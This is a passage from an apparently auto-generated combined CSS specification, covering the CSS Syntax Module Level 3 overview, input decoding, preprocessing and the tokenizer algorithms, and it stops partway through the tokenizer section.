[](https://www.w3.org/)

# Cascading Style Sheets — Combined Specification {#title}

[CSSWG Combined Editor's Draft](https://www.w3.org/standards/types#ED), 20 November 2026

**This version:**

: [https://drafts.csswg.org/all-css/](https://drafts.csswg.org/all-css/)

**Markdown version (for agents):**

: [index.md](./index.md)

**Repository & Issues:**

: [w3c/csswg-drafts on GitHub](https://github.com/w3c/csswg-drafts)

**Combined Specifications:**

: 117 modules

[Copyright](https://www.w3.org/policies/#copyright) © 2026 [World Wide Web Consortium](https://www.w3.org/). W3C® liability, trademark and permissive document license rules apply.

---

## Abstract {#abstract}

This document is an automatically generated mega-specification combining all active CSS Working Group specifications into a single searchable HTML and Markdown reference.

## Introduction {#combiner-intro}

This document combines the meaningful normative and informative content of **117** active CSS Working Group specifications into a single reference page for full-text search (`Ctrl+F` / `Cmd+F`) and automated agent ingestion. Snapshot profiles, Working Group Notes, redirect stubs, abandoned drafts, and superseded module levels are omitted; delta/diff specifications are included immediately after the base specification they extend.

- **Ordering:** Foundational modules (Syntax, Values, Cascade, Selectors, Box Model, Display, Layout) appear first, followed by typography, visual effects, animations, scrolling/UI, fragmentation, CSSOM APIs, and the CSS Level 2 baseline (`css2`).
- **Navigation & Source Links:** Every element ID is prefixed with its specification's versioned shortname (for example, `#css-cascade-5:cascading`). Original section numbers from each source specification are preserved, and the `↗` badge at the start of each heading jumps directly to that section in the standalone Editor's Draft.
- **Agent-Friendly Markdown:** A token-efficient Markdown edition of this document (omitting interactive popup panels and redundant lookup tables) is available at [`index.md`](./index.md).

---

## CSS Syntax Module Level 3 {#css-syntax-3}

- **Shortname:** `css-syntax-3`
- **Editor's Draft:** [https://drafts.csswg.org/css-syntax/](https://drafts.csswg.org/css-syntax/)
- **Published TR:** [https://www.w3.org/TR/css-syntax-3/](https://www.w3.org/TR/css-syntax-3/)
- **W3C Status:** ED (testing)
- **Last Edited:** 2026-10-20

### 1.  Introduction {#css-syntax-3:intro}

*This section is not normative.*

This module defines the abstract syntax and parsing of CSS stylesheets and other things which use CSS syntax (such as the HTML `style` attribute).

It defines algorithms for converting a stream of Unicode code points (in other words, text) into a stream of CSS tokens, and then further into CSS objects such as stylesheets, rules, and declarations.

#### 1.1.  Module interactions {#css-syntax-3:placement}

This module defines the syntax and parsing of CSS stylesheets. It supersedes the lexical scanner and grammar defined in CSS 2.1.

### 2.  Description of CSS’s Syntax {#css-syntax-3:syntax-description}

*This section is not normative.*

A CSS document is a series of style rules—​which are qualified rules that apply styles to elements in a document—​and at-rules—​which define special processing rules or values for the CSS document.

A qualified rule starts with a prelude then has a {}-wrapped block containing a sequence of declarations. The meaning of the prelude varies based on the context that the rule appears in—​for style rules, it’s a selector which specifies what elements the declarations will apply to. Each declaration has a name, followed by a colon and the declaration value. Declarations are separated by semicolons.

> **Example:** A typical rule might look something like this:
>
> ```
> p > a {
>   color: blue;
>   text-decoration: underline;
> }
> ```
>
> In the above rule, "`p > a`" is the selector, which, if the source document is HTML, selects any `a` elements that are children of a `p` element.
>
> "`color: blue`" is a declaration specifying that, for the elements that match the selector, their `color` property should have the value `blue`. Similarly, their `text-decoration` property should have the value `underline`.

At-rules are all different, but they have a basic structure in common. They start with an "@" code point followed by their name as a CSS keyword. Some at-rules are simple statements, with their name followed by more CSS values to specify their behavior, and finally ended by a semicolon. Others are blocks; they can have CSS values following their name, but they end with a {}-wrapped block, similar to a qualified rule. Even the contents of these blocks are specific to the given at-rule: sometimes they contain a sequence of declarations, like a qualified rule; other times, they may contain additional blocks, or at-rules, or other structures altogether.

> **Example:** Here are several examples of at-rules that illustrate the varied syntax they may contain.
>
> ```
> @import "my-styles.css";
> ```
>
> The `@import` at-rule is a simple statement. After its name, it takes a single string or `url()` function to indicate the stylesheet that it should import.
>
> ```
> @page :left {
>   margin-left: 4cm;
>   margin-right: 3cm;
> }
> ```
>
> The `@page` at-rule consists of an optional page selector (the `:left` pseudoclass), followed by a block of properties that apply to the page when printed. In this way, it’s very similar to a normal style rule, except that its properties don’t apply to any "element", but rather the page itself.
>
> ```
> @media print {
>   body { font-size: 10pt }
> }
> ```
>
> The `@media` at-rule begins with a media type and a list of optional media queries. Its block contains entire rules, which are only applied when the `@media`s conditions are fulfilled.

Property names and at-rule names are always ident sequences, which have to start with an ident-start code point, two hyphens, or a hyphen followed by an ident-start code point, and then can contain zero or more ident code points. You can include any code point at all, even ones that CSS uses in its syntax, by escaping it.

The syntax of selectors is defined in the [Selectors spec](#selectors-5). Similarly, the syntax of the wide variety of CSS values is defined in the [Values & Units spec](#css-values-4). The special syntaxes of individual at-rules can be found in the specs that define them.

#### 2.1.  Escaping {#css-syntax-3:escaping}

*This section is not normative.*

Any Unicode code point can be included in an ident sequence or quoted string by **escaping** it. CSS escape sequences start with a backslash (\), and continue with:

- Any Unicode code point that is not a hex digits or a newline. The escape sequence is replaced by that code point.
- Or one to six hex digits, followed by an optional whitespace. The escape sequence is replaced by the Unicode code point whose value is given by the hexadecimal digits. This optional whitespace allow hexadecimal escape sequences to be followed by "real" hex digits.

  > **Example:** An ident sequence with the value "&B" could be written as `\26 B` or `\000026B`.

  > **Note:** A "real" space after the escape sequence must be doubled.

#### 2.2.  Error Handling {#css-syntax-3:error-handling}

*This section is not normative.*

When errors occur in CSS, the parser attempts to recover gracefully, throwing away only the minimum amount of content before returning to parsing as normal. This is because errors aren’t always mistakes—​new syntax looks like an error to an old parser, and it’s useful to be able to add new syntax to the language without worrying about stylesheets that include it being completely broken in older UAs.

The precise error-recovery behavior is detailed in the parser itself, but it’s simple enough that a short description is fairly accurate.

- At the "top level" of a stylesheet, an `<at-keyword-token>` starts an at-rule. Anything else starts a qualified rule, and is included in the rule’s prelude. This may produce an invalid selector, but that’s not the concern of the CSS parser—​at worst, it means the selector will match nothing.
- Once an at-rule starts, nothing is invalid from the parser’s standpoint; it’s all part of the at-rule’s prelude. Encountering a `<semicolon-token>` ends the at-rule immediately, while encountering an opening curly-brace <{-token> starts the at-rule’s body. The at-rule seeks forward, matching blocks (content surrounded by (), {}, or []) until it finds a closing curly-brace <}-token> that isn’t matched by anything else or inside of another block. The contents of the at-rule are then interpreted according to the at-rule’s own grammar.
- Qualified rules work similarly, except that semicolons don’t end them; instead, they are just taken in as part of the rule’s prelude. When the first {} block is found, the contents are always interpreted as a list of declarations.
- When interpreting a list of declarations, unknown syntax at any point causes the parser to throw away whatever declaration it’s currently building, and seek forward until it finds a semicolon (or the end of the block). It then starts fresh, trying to parse a declaration again.
- If the stylesheet ends while any rule, declaration, function, string, etc. are still open, everything is automatically closed. This doesn’t make them invalid, though they may be incomplete and thus thrown away when they are verified against their grammar.

  > **Example:** For example, the syntax of the `translateX()` function is:
  >
  > ```
  > translateX( <translation-value> )
  > ```
  >
  > However, the stylesheet may end with the function unclosed, like:
  >
  > ```
  > .foo { transform: translate(50px
  > ```
  >
  > The CSS parser parses this as a style rule containing one declaration, whose value is a function named "translate". This matches the above grammar, even though the ending token didn’t appear in the token stream, because by the time the parser is finished, the presence of the ending token is no longer possible to determine; all you have is the fact that there’s a block and a function.

After each construct (declaration, style rule, at-rule) is parsed, the user agent checks it against its expected grammar. If it does not match the grammar, it’s **invalid**, and gets **ignored** by the UA, which treats it as if it wasn’t there at all.

### 3.  Tokenizing and Parsing CSS {#css-syntax-3:tokenizing-and-parsing}

User agents must use the parsing rules described in this specification to generate the [CSSOM] trees from text/css resources. Together, these rules define what is referred to as the CSS parser.

This specification defines the parsing rules for CSS documents, whether they are syntactically correct or not. Certain points in the parsing algorithm are said to be **parse errors**. The error handling for parse errors is well-defined: user agents must either act as described below when encountering such problems, or must abort processing at the first error that they encounter for which they do not wish to apply the rules described below.

Conformance checkers must report at least one parse error condition to the user if one or more parse error conditions exist in the document and must not report parse error conditions if none exist in the document. Conformance checkers may report more than one parse error condition if more than one parse error condition exists in the document. Conformance checkers are not required to recover from parse errors, but if they do, they must recover in the same way as user agents.

#### 3.1.  Overview of the Parsing Model {#css-syntax-3:parsing-overview}

The input to the CSS parsing process consists of a stream of Unicode code points, which is passed through a tokenization stage followed by a tree construction stage. The output is a CSSStyleSheet object.

> **Note:** Implementations that do not support scripting do not have to actually create a CSSOM CSSStyleSheet object, but the CSSOM tree in such cases is still used as the model for the rest of the specification.

#### 3.2.  The input byte stream {#css-syntax-3:input-byte-stream}

When parsing a stylesheet, the stream of Unicode code points that comprises the input to the tokenization stage might be initially seen by the user agent as a stream of bytes (typically coming over the network or from the local file system). If so, the user agent must decode these bytes into code points according to a particular character encoding.

To **decode** a *stylesheet*’s stream of bytes into a stream of code points:

1. Determine the fallback encoding of *stylesheet*, and let *fallback* be the result.
2. Decode *stylesheet*’s stream of bytes with fallback encoding *fallback*, and return the result.

> **Note:** The decode algorithm gives precedence to a byte order mark (BOM), and only uses the fallback when none is found.

To **determine the fallback encoding** of a *stylesheet*:

1. If HTTP or equivalent protocol provides an *encoding label* (e.g. via the charset parameter of the Content-Type header) for the *stylesheet*, get an encoding from *encoding label*. If that does not return failure, return it.
2. Otherwise, check *stylesheet*’s byte stream. If the first 1024 bytes of the stream begin with the hex sequence

   ```
   40 63 68 61 72 73 65 74 20 22 XX* 22 3B
   ```

   where each `XX` byte is a value between 016 and 2116 inclusive or a value between 2316 and 7F16 inclusive, then get an encoding from a string formed out of the sequence of `XX` bytes, interpreted as `ASCII`.

   > **Note:** What does that byte sequence mean?
   >
   > The byte sequence above, when decoded as ASCII, is the string "`@charset "…";`", where the "…" is the sequence of bytes corresponding to the encoding’s label.

   If the return value was `utf-16be` or `utf-16le`, return `utf-8`; if it was anything else except failure, return it.

   > **Note:** Why use utf-8 when the declaration says utf-16?
   >
   > The bytes of the encoding declaration spell out “`@charset "…";`” in ASCII, but UTF-16 is not ASCII-compatible. Either you’ve typed in complete gibberish (like `䁣桡牳整•utf-16be∻`) to get the right bytes in the document, which we don’t want to encourage, or your document is actually in an ASCII-compatible encoding and your encoding declaration is lying.
   >
   > Either way, defaulting to UTF-8 is a decent answer.
   >
   > As well, this mimics the behavior of HTML’s `<meta charset>` attribute.

   > **Note:** Note that the syntax of an encoding declaration *looks like* the syntax of an at-rule named `@charset`, but no such rule actually exists, and the rules for how you can write it are much more restrictive than they would normally be for recognizing such a rule. A number of things you can do in CSS that would produce a valid `@charset` rule (if one existed), such as using multiple spaces, comments, or single quotes, will cause the encoding declaration to not be recognized. This behavior keeps the encoding declaration as simple as possible, and thus maximizes the likelihood of it being implemented correctly.
3. Otherwise, if an environment encoding is provided by the referring document, return it.
4. Otherwise, return `utf-8`.

> **Note:** Though UTF-8 is the default encoding for the web, and many newer web-based file formats assume or require UTF-8 encoding, CSS was created before it was clear which encoding would win, and thus can’t automatically assume the stylesheet is UTF-8.
>
> Stylesheet authors *should* author their stylesheets in UTF-8, and ensure that either an HTTP header (or equivalent method) declares the encoding of the stylesheet to be UTF-8, or that the referring document declares its encoding to be UTF-8. (In HTML, this is done by adding a `<meta charset=utf-8>` element to the head of the document.)
>
> If neither of these options are available, authors should begin the stylesheet with a UTF-8 BOM or the exact characters
>
> ```
> @charset "utf-8";
> ```

Document languages that refer to CSS stylesheets that are decoded from bytes may define an **environment encoding** for each such stylesheet, which is used as a fallback when other encoding hints are not available or can not be used.

The concept of environment encoding only exists for compatibility with legacy content. New formats and new linking mechanisms **should not** provide an environment encoding, so the stylesheet defaults to UTF-8 instead in the absence of more explicit information.

> **Note:** [HTML] defines [the environment encoding for `<link rel=stylesheet>`](https://html.spec.whatwg.org/multipage/links.html#link-type-stylesheet).

> **Note:** [CSSOM] defines [the environment encoding for `<xml-stylesheet?>`](#cssom-1:requirements-on-user-agents-implementing-the-xml-stylesheet-processing-instruction).

> **Note:** [CSS-CASCADE-3] defines `the environment encoding for @import`.

#### 3.3.  Preprocessing the input stream {#css-syntax-3:input-preprocessing}

The **input stream** consists of the filtered code points pushed into it as the input byte stream is decoded.

To **filter code points** from a stream of (unfiltered) code points *input*:

- Replace any U+000D CARRIAGE RETURN (CR) code points, U+000C FORM FEED (FF) code points, or pairs of U+000D CARRIAGE RETURN (CR) followed by U+000A LINE FEED (LF) in *input* by a single U+000A LINE FEED (LF) code point.
- Replace any U+0000 NULL or surrogate code points in *input* with U+FFFD REPLACEMENT CHARACTER (�).

  > **Note:** The only way to produce a surrogate code point in CSS content is by directly assigning a `DOMString` with one in it via an OM operation.

### 4.  Tokenization {#css-syntax-3:tokenization}

To **tokenize** a stream of code points into a stream of CSS tokens *input*, repeatedly consume a token from *input* until an `<EOF-token>` is reached, pushing each of the returned tokens into a stream.

> **Note:** Each call to the consume a token algorithm returns a single token, so it can also be used "on-demand" to tokenize a stream of code points *during* parsing, if so desired.

The output of tokenization step is a stream of zero or more of the following tokens: **<ident-token>**, **<function-token>**, **<at-keyword-token>**, **<hash-token>**, **<string-token>**, **<bad-string-token>**, **<url-token>**, **<bad-url-token>**, **<delim-token>**, **<number-token>**, **<percentage-token>**, **<dimension-token>**, **<unicode-range-token>**, **<whitespace-token>**, **<CDO-token>**, **<CDC-token>**, **<colon-token>**, **<semicolon-token>**, **<comma-token>**, **<[-token>**, **<]-token>**, **<(-token>**, **<)-token>**, **<{-token>**, and **<}-token>**.

- `<ident-token>`, `<function-token>`, `<at-keyword-token>`, `<hash-token>`, `<string-token>`, and `<url-token>` have a value composed of zero or more code points. Additionally, hash tokens have a type flag set to either "id" or "unrestricted". The type flag defaults to "unrestricted" if not otherwise set.
- `<delim-token>` has a value composed of a single code point.
- `<number-token>`, `<percentage-token>`, and `<dimension-token>` have a numeric value, and an optional sign character set to either "+" or "-" (or nothing).

  `<number-token>` and `<dimension-token>` additionally have a type flag set to either "integer" or "number". The type flag defaults to "integer" if not otherwise set. <dimension-token> additionally have a unit composed of one or more code points.
- `<unicode-range-token>` has a starting and ending code point. It represents an inclusive range of codepoints (including both the start and end). If the ending code point is before the starting code point, it represents an empty range.

> **Note:** The type flag of hash tokens is used in the Selectors syntax [SELECT]. Only hash tokens with the "id" type are valid [ID selectors](#selectors-4:id-selectors).

#### 4.1.  Token Railroad Diagrams {#css-syntax-3:token-diagrams}

*This section is non-normative.*

This section presents an informative view of the tokenizer, in the form of railroad diagrams. Railroad diagrams are more compact than an explicit parser, but often easier to read than a regular expression.

These diagrams are *informative* and *incomplete*; they describe the grammar of "correct" tokens, but do not describe error-handling at all. They are provided solely to make it easier to get an intuitive grasp of the syntax of each token.

Diagrams with names such as *<foo-token>* represent tokens. The rest are productions referred to by other diagrams.

**comment**

**newline**

**whitespace**

**hex digit**

**escape**

**`<whitespace-token>`**

**ws***

**`<ident-token>`**

**`<function-token>`**

**`<at-keyword-token>`**

**`<hash-token>`**

**`<string-token>`**

**`<url-token>`**

**`<number-token>`**

**`<dimension-token>`**

**`<percentage-token>`**

**`<CDO-token>`**

**`<CDC-token>`**

**`<unicode-range-token>`**

#### 4.2.  Definitions {#css-syntax-3:tokenizer-definitions}

This section defines several terms used during the tokenization phase.

****next input code point****

: The first code point in the input stream that has not yet been consumed.

****current input code point****

: The last code point to have been consumed.

****reconsume the current input code point****

: Push the current input code point back onto the front of the input stream, so that the next time you are instructed to consume the next input code point, it will instead reconsume the current input code point.

****EOF code point****

: A conceptual code point representing the end of the input stream. Whenever the input stream is empty, the next input code point is always an EOF code point.

****digit****

: A code point between U+0030 DIGIT ZERO (0) and U+0039 DIGIT NINE (9) inclusive.

****hex digit****

: A digit, or a code point between U+0041 LATIN CAPITAL LETTER A (A) and U+0046 LATIN CAPITAL LETTER F (F) inclusive, or a code point between U+0061 LATIN SMALL LETTER A (a) and U+0066 LATIN SMALL LETTER F (f) inclusive.

****uppercase letter****

: A code point between U+0041 LATIN CAPITAL LETTER A (A) and U+005A LATIN CAPITAL LETTER Z (Z) inclusive.

****lowercase letter****

: A code point between U+0061 LATIN SMALL LETTER A (a) and U+007A LATIN SMALL LETTER Z (z) inclusive.

****letter****

: An uppercase letter or a lowercase letter.

****non-ASCII ident code point****

: A code point whose value is any of:

  - U+00B7
  - between U+00C0 and U+00D6
  - between U+00D8 and U+00F6
  - between U+00F8 and U+037D
  - between U+037F and U+1FFF
  - U+200C
  - U+200D
  - U+203F
  - U+2040
  - between U+2070 and U+218F
  - between U+2C00 and U+2FEF
  - between U+3001 and U+D7FF
  - between U+F900 and U+FDCF
  - between U+FDF0 and U+FFFD
  - greater than or equal to U+10000

  All of these ranges are inclusive.

  > **Note:** Why these character, specifically?
  >
  > This matches the list of non-ASCII codepoints allowed to be used in HTML valid custom element names. It excludes a number of characters that appear as whitespace, or that can cause rendering or parsing issues in some tools, such as the direction override codepoints.
  >
  > Note that this is a weaker set of restrictions than [UAX 31](https://unicode.org/reports/tr31/#Figure_Code_Point_Categories_for_Identifier_Parsing) recommends for identifiers (used by languages such as JavaScript to restrict their identifier syntax), allowing things such as starting an identifier with a combining character. Consistency with HTML custom element names (and thus, the ability to write selectors for all custom elements without having to use escapes) was considered valuable, and the set of characters restricted by HTML covers the "high value" restrictions well.
  >
  > These restrictions do not avoid all possible confusing renderings; mixing characters from LTR and RTL scripts can still result in unexpected visual transposition in most text editors, for example. Source text can contain the restricted characters in non-ident contexts, as well: most of them are completely valid in strings, for example. Even when used in a way that creates invalid CSS, the parsing errors they cause might be limited to something unimportant, while their effect on rendering the source text in code review tools might be significant and/or malicious. For more details on these sorts of "source text attacks", see [this Rust-lang blog post](https://blog.rust-lang.org/2021/11/01/cve-2021-42574.html) [(archived)](https://web.archive.org/web/20220323175009/https://blog.rust-lang.org/2021/11/01/cve-2021-42574.html).

****ident-start code point****

: A letter, a non-ASCII ident code point, or U+005F LOW LINE (_).

****ident code point****

: An ident-start code point, a digit, or U+002D HYPHEN-MINUS (-).

****non-printable code point****

: A code point between U+0000 NULL and U+0008 BACKSPACE inclusive, or U+000B LINE TABULATION, or a code point between U+000E SHIFT OUT and U+001F INFORMATION SEPARATOR ONE inclusive, or U+007F DELETE.

****newline****

: U+000A LINE FEED.  Note that U+000D CARRIAGE RETURN and U+000C FORM FEED are not included in this definition, as they are converted to U+000A LINE FEED during [preprocessing](#css-syntax-3:input-preprocessing).

****whitespace****

: A newline, U+0009 CHARACTER TABULATION, or U+0020 SPACE.

****maximum allowed code point****

: The greatest code point defined by Unicode: U+10FFFF.

****ident sequence****

: A sequence of code points that has the same syntax as an `<ident-token>`.

  > **Note:** The part of an `<at-keyword-token>` after the "@", the part of a `<hash-token>` (with the "id" type flag) after the "#", the part of a `<function-token>` before the "(", and the unit of a `<dimension-token>` are all ident sequences.

#### 4.3.  Tokenizer Algorithms {#css-syntax-3:tokenizer-algorithms}

The algorithms defined in this section transform a stream of code points into a stream of tokens.

##### 4.3.1.  Consume a token {#css-syntax-3:consume-token}

This section describes how to **consume a token** from a stream of code points. It additionally takes an optional boolean *unicode ranges allowed*, defaulting to false. It will return a single token of any type.

Consume comments.

Consume the next input code point.

**whitespace**

: Consume as much whitespace as possible. Return a `<whitespace-token>`.

**U+0022 QUOTATION MARK (")**

: Consume a string token and return it.

**U+0023 NUMBER SIGN (#)**

: If the next input code point is an ident code point or the next two input code points are a valid escape, then:

  1. Create a `<hash-token>`.
  2. If the next 3 input code points would start an ident sequence, set the `<hash-token>`’s type flag to "id".
  3. Consume an ident sequence, and set the `<hash-token>`’s value to the returned string.
  4. Return the `<hash-token>`.

  Otherwise, return a `<delim-token>` with its value set to the current input code point.

**U+0027 APOSTROPHE (')**

: Consume a string token and return it.

**U+0028 LEFT PARENTHESIS (()**

: Return a <(-token>.

**U+0029 RIGHT PARENTHESIS ())**

: Return a <)-token>.

**U+002B PLUS SIGN (+)**

: If the input stream starts with a number, reconsume the current input code point, consume a numeric token, and return it.

  Otherwise, return a `<delim-token>` with its value set to the current input code point.

**U+002C COMMA (,)**

: Return a `<comma-token>`.

**U+002D HYPHEN-MINUS (-)**

: If the input stream starts with a number, reconsume the current input code point, consume a numeric token, and return it.

  Otherwise, if the next 2 input code points are U+002D HYPHEN-MINUS U+003E GREATER-THAN SIGN (->), consume them and return a `<CDC-token>`.

  Otherwise, if the input stream starts with an ident sequence, reconsume the current input code point, consume an ident-like token, and return it.

  Otherwise, return a `<delim-token>` with its value set to the current input code point.

**U+002E FULL STOP (.)**

: If the input stream starts with a number, reconsume the current input code point, consume a numeric token, and return it.

  Otherwise, return a `<delim-token>` with its value set to the current input code point.

**U+003A COLON (:)**

: Return a `<colon-token>`.

**U+003B SEMICOLON (;)**

: Return a `<semicolon-token>`.

**U+003C LESS-THAN SIGN (<)**

: If the next 3 input code points are U+0021 EXCLAMATION MARK U+002D HYPHEN-MINUS U+002D HYPHEN-MINUS (!--), consume them and return a `<CDO-token>`.

  Otherwise, return a `<delim-token>` with its value set to the current input code point.

**U+0040 COMMERCIAL AT (@)**

: If the next 3 input code points would start an ident sequence, consume an ident sequence, create an `<at-keyword-token>` with its value set to the returned value, and return it.

  Otherwise, return a `<delim-token>` with its value set to the current input code point.

**U+005B LEFT SQUARE BRACKET ([)**

: Return a <[-token>.

**U+005C REVERSE SOLIDUS (\)**

: If the input stream starts with a valid escape, reconsume the current input code point, consume an ident-like token, and return it.

  Otherwise, this is a parse error. Return a `<delim-token>` with its value set to the current input code point.

**U+005D RIGHT SQUARE BRACKET (])**

: Return a <]-token>.

**U+007B LEFT CURLY BRACKET ({)**

: Return a <{-token>.

**U+007D RIGHT CURLY BRACKET (})**

: Return a <}-token>.

**digit**

: Reconsume the current input code point, consume a numeric token, and return it.

**U+0055 LATIN CAPITAL LETTER U (U) u+0075 LATIN LOWERCASE LETTER U (u)**

: If *unicode ranges allowed* is true and the input stream would start a unicode-range, reconsume the current input code point, consume a unicode-range token, and return it.

  Otherwise, reconsume the current input code point, consume an ident-like token, and return it.

**ident-start code point**

: Reconsume the current input code point, consume an ident-like token, and return it.

**EOF**

: Return an `<EOF-token>`.

**anything else**

: Return a `<delim-token>` with its value set to the current input code point.

##### 4.3.2.  Consume comments {#css-syntax-3:consume-comment}

This section describes how to **consume comments** from a stream of code points. It returns nothing.

If the next two input code point are U+002F SOLIDUS (/) followed by a U+002A ASTERISK (*), consume them and all following code points up to and including the first U+002A ASTERISK (*) followed by a U+002F SOLIDUS (/), or up to an EOF code point. Return to the start of this step.

If the preceding paragraph ended by consuming an EOF code point, this is a parse error.

Return nothing.

##### 4.3.3.  Consume a numeric token {#css-syntax-3:consume-numeric-token}

This section describes how to **consume a numeric token** from a stream of code points. It returns either a `<number-token>`, `<percentage-token>`, or `<dimension-token>`.

Consume a number and let *number* be the result.

If the next 3 input code points would start an ident sequence, then:

1. Create a `<dimension-token>` with the same value, type flag, and sign character as *number*, and a unit set initially to the empty string.
2. Consume an ident sequence. Set the `<dimension-token>`’s unit to the returned value.
3. Return the `<dimension-token>`.

Otherwise, if the next input code point is U+0025 PERCENTAGE SIGN (%), consume it. Create a `<percentage-token>` with the same value and sign character as *number*, and return it.

Otherwise, create a `<number-token>` with the same value, type flag, and sign character as *number*, and return it.

##### 4.3.4.  Consume an ident-like token {#css-syntax-3:consume-ident-like-token}

This section describes how to **consume an ident-like token** from a stream of code points. It returns an `<ident-token>`, `<function-token>`, `<url-token>`, or `<bad-url-token>`.

Consume an ident sequence, and let *string* be the result.

If *string*’s value is an ASCII case-insensitive match for "url", and the next input code point is U+0028 LEFT PARENTHESIS ((), consume it. While the next two input code points are whitespace, consume the next input code point. If the next one or two input code points are U+0022 QUOTATION MARK ("), U+0027 APOSTROPHE ('), or whitespace followed by U+0022 QUOTATION MARK (") or U+0027 APOSTROPHE ('), then create a `<function-token>` with its value set to *string* and return it. Otherwise, consume a url token, and return it.

Otherwise, if the next input code point is U+0028 LEFT PARENTHESIS ((), consume it. Create a `<function-token>` with its value set to *string* and return it.

Otherwise, create an `<ident-token>` with its value set to *string* and return it.

##### 4.3.5.  Consume a string token {#css-syntax-3:consume-string-token}

This section describes how to **consume a string token** from a stream of code points. It returns either a `<string-token>` or `<bad-string-token>`.

This algorithm may be called with an *ending code point*, which denotes the code point that ends the string. If an *ending code point* is not specified, the current input code point is used.

Initially create a `<string-token>` with its value set to the empty string.

Repeatedly consume the next input code point from the stream:

***ending code point***

: Return the `<string-token>`.

**EOF**

: This is a parse error. Return the `<string-token>`.

**newline**

: This is a parse error. Reconsume the current input code point, create a `<bad-string-token>`, and return it.

**U+005C REVERSE SOLIDUS (\)**

: If the next input code point is EOF, do nothing.

  Otherwise, if the next input code point is a newline, consume it.

  Otherwise, (the stream starts with a valid escape) consume an escaped code point and append the returned code point to the `<string-token>`’s value.

**anything else**

: Append the current input code point to the `<string-token>`’s value.

##### 4.3.6.  Consume a url token {#css-syntax-3:consume-url-token}

This section describes how to **consume a url token** from a stream of code points. It returns either a `<url-token>` or a `<bad-url-token>`.

> **Note:** This algorithm assumes that the initial "url(" has already been consumed. This algorithm also assumes that it’s being called to consume an "unquoted" value, like `url(foo)`. A quoted value, like `url("foo")`, is parsed as a `<function-token>`. Consume an ident-like token automatically handles this distinction; this algorithm shouldn’t be called directly otherwise.

1. Initially create a `<url-token>` with its value set to the empty string.
2. Consume as much whitespace as possible.
3. Repeatedly consume the next input code point from the stream:

   **U+0029 RIGHT PARENTHESIS ())**

   : Return the `<url-token>`.

   **EOF**

   : This is a parse error. Return the `<url-token>`.

   **whitespace**

   : Consume as much whitespace as possible. If the next input code point is U+0029 RIGHT PARENTHESIS ()) or EOF, consume it and return the `<url-token>` (if EOF was encountered, this is a parse error); otherwise, consume the remnants of a bad url, create a `<bad-url-token>`, and return it.

   **U+0022 QUOTATION MARK (") U+0027 APOSTROPHE (') U+0028 LEFT PARENTHESIS (() non-printable code point**

   : This is a parse error. Consume the remnants of a bad url, create a `<bad-url-token>`, and return it.

   **U+005C REVERSE SOLIDUS (\)**

   : If the stream starts with a valid escape, consume an escaped code point and append the returned code point to the `<url-token>`’s value.

  Otherwise, this is a parse error. Consume the remnants of a bad url, create a `<bad-url-token>`, and return it.

   **anything else**

   : Append the current input code point to the `<url-token>`’s value.

##### 4.3.7.  Consume an escaped code point {#css-syntax-3:consume-escaped-code-point}

This section describes how to **consume an escaped code point**. It assumes that the U+005C REVERSE SOLIDUS (\) has already been consumed and that the next input code point has already been verified to be part of a valid escape. It will return a code point.

Consume the next input code point.

**hex digit**

: Consume as many hex digits as possible, but no more than 5. Note that this means 1-6 hex digits have been consumed in total. If the next input code point is whitespace, consume it as well. Interpret the hex digits as a hexadecimal number. If this number is zero, or is for a surrogate, or is greater than the maximum allowed code point, return U+FFFD REPLACEMENT CHARACTER (�). Otherwise, return the code point with that value.

**EOF**

: This is a parse error. Return U+FFFD REPLACEMENT CHARACTER (�).

**anything else**

: Return the current input code point.

##### 4.3.8.  Check if two code points are a valid escape {#css-syntax-3:starts-with-a-valid-escape}

This section describes how to **check if two code points are a valid escape**. The algorithm described here can be called explicitly with two code points, or can be called with the input stream itself. In the latter case, the two code points in question are the current input code point and the next input code point, in that order.

> **Note:** This algorithm will not consume any additional code point.

If the first code point is not U+005C REVERSE SOLIDUS (\), return false.

Otherwise, if the second code point is a newline, return false.

Otherwise, return true.

##### 4.3.9.  Check if three code points would start an ident sequence {#css-syntax-3:would-start-an-identifier}

This section describes how to **check if three code points would start an ident sequence**. The algorithm described here can be called explicitly with three code points, or can be called with the input stream itself. In the latter case, the three code points in question are the current input code point and the next two input code points, in that order.

> **Note:** This algorithm will not consume any additional code points.

Look at the first code point:

**U+002D HYPHEN-MINUS**

: If the second code point is an ident-start code point or a U+002D HYPHEN-MINUS, or the second and third code points are a valid escape, return true. Otherwise, return false.

**ident-start code point**

: Return true.

**U+005C REVERSE SOLIDUS (\)**

: If the first and second code points are a valid escape, return true. Otherwise, return false.

**anything else**

: Return false.

##### 4.3.10.  Check if three code points would start a number {#css-syntax-3:starts-with-a-number}

This section describes how to **check if three code points would start a number**. The algorithm described here can be called explicitly with three code points, or can be called with the input stream itself. In the latter case, the three code points in question are the current input code point and the next two input code points, in that order.

> **Note:** This algorithm will not consume any additional code points.

Look at the first code point:

**U+002B PLUS SIGN (+) U+002D HYPHEN-MINUS (-)**

: If the second code point is a digit, return true.

  Otherwise, if the second code point is a U+002E FULL STOP (.) and the third code point is a digit, return true.

  Otherwise, return false.

**U+002E FULL STOP (.)**

: If the second code point is a digit, return true. Otherwise, return false.

**digit**

: Return true.

**anything else**

: Return false.

##### 4.3.11.  Check if three code points would start a unicode-range {#css-syntax-3:starts-a-unicode-range}

This section describes how to **check if three code points would start a unicode-range**. The algorithm described here can be called explicitly with three code points, or can be called with the input stream itself. In the latter case, the three code points in question are the current input code point and the next two input code points, in that order.

> **Note:** This algorithm will not consume any additional code points.

If all of the following are true:

- The first code point is either U+0055 LATIN CAPITAL LETTER U (U) or U+0075 LATIN SMALL LETTER U (u)
- The second code point is U+002B PLUS SIGN (+).
- The third code point is either U+003F QUESTION MARK (?) or a hex digit

then return true.

Otherwise return false.

##### 4.3.12.  Consume an ident sequence {#css-syntax-3:consume-name}

This section describes how to **consume an ident sequence** from a stream of code points. It returns a string containing the largest name that can be formed from adjacent code points in the stream, starting from the first.

> **Note:** This algorithm does not do the verification of the first few code points that are necessary to ensure the returned code points would constitute an `<ident-token>`. If that is the intended use, ensure that the stream starts with an ident sequence before calling this algorithm.

Let *result* initially be an empty string.

Repeatedly consume the next input code point from the stream:

**ident code point**

: Append the code point to *result*.

**the stream starts with a valid escape**

: Consume an escaped code point. Append the returned code point to *result*.

**anything else**

: Reconsume the current input code point. Return *result*.

##### 4.3.13.  Consume a number {#css-syntax-3:consume-number}

This section describes how to **consume a number** from a stream of code points. It returns a numeric *value*, a string *type* which is either "integer" or "number", and an optional *sign character* which is either "+", "-", or missing.

> **Note:** This algorithm does not do the verification of the first few code points that are necessary to ensure a number can be obtained from the stream. Ensure that the stream starts with a number before calling this algorithm.
